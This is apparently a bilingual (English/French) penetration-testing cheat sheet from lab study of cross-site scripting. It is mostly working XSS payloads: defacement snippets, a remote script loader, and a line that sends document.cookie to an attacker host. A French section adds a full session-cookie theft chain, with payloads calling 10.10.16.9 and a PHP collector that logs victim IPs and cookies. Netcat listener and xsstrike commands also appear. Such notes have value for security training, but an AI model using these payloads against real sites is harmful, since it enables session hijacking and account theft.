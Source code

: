 #XSS #web 

## Commands

| Code                                                                                          | Description                       |     |
| --------------------------------------------------------------------------------------------- | --------------------------------- | --- |
| **XSS Payloads**                                                                              |                                   |     |
| `"><script>alert(window.origin)</script>`                                                     | Basic XSS Payload                 |     |
| `'><script>alert(window.origin)</script>`                                                     | Basic XSS Payload                 |     |
| `<script>alert(window.origin)</script>`                                                       | Basic XSS Payload                 |     |
| `<plaintext>`                                                                                 | Basic XSS Payload                 |     |
| `<script>print()</script>`                                                                    | Basic XSS Payload                 |     |
| `<img src="" onerror=alert(window.origin)>`                                                   | HTML-based XSS Payload            |     |
| `<script>document.body.style.background = "#141d2b"</script>`                                 | Change Background Color           |     |
| `<script>document.body.background = "https://www.hackthebox.eu/images/logo-htb.svg"</script>` | Change Background Image           |     |
| `<script>document.title = 'HackTheBox Academy'</script>`                                      | Change Website Title              |     |
| `<script>document.getElementsByTagName('body')[0].innerHTML = 'text'</script>`                | Overwrite website's main body     |     |
| `<script>document.getElementById('urlform').remove();</script>`                               | Remove certain HTML element       |     |
| `<script src="http://OUR_IP/script.js"></script>`                                             | Load remote script                |     |
| `<script>new Image().src='http://OUR_IP/index.php?c='+document.cookie</script>`               | Send Cookie details to us         |     |
| **Commands**                                                                                  |                                   |     |
| `python xsstrike.py -u "http://SERVER_IP:PORT/index.php?task=test"`                           | Run `xsstrike` on a url parameter |     |
| `sudo nc -lvnp 80`                                                                            | Start `netcat` listener           |     |
| `sudo php -S 0.0.0.0:80 `                                                                     | Start `PHP` server                |     |


### Utilisation d'un payload XSS avec un script PHP pour récuperer les cookies d'une session

Utilisation d'un **payload XSS** appelant un fichier **js** avec lui même une requête sur les cookies de la sessions et appel d'un fichier **php** pour récuperer au clair les informations dans un txt.

#### Payload avec connexion à notre propre serveur php
```bash
"><script src=http://10.10.16.9/script.js></script>
```

#### deuxième payload ( requête pour récupération des cookies )
```javascript

?>new Image().src='http://10.10.16.9/index.php?c='+document.cookie

```

#### PHP script
```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
```

#### Utilisation des entrées directe :
- Code Javascript<script></script>
- Code de style CSS<style></style>
- Champs de balise/attribut<div name='INPUT'></div>
- Commentaires HTML<!-- --> 